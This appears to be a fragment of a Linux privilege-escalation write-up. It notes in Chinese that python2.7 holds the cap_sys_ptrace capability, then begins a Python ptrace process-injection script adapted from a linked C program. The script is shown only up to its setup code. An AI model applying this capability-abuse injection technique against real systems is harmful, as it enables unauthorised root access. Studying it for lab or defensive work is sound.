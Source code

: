   发现python2.7具有cap_sys_ptrace权限。这是可以提权的。





```python
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

```
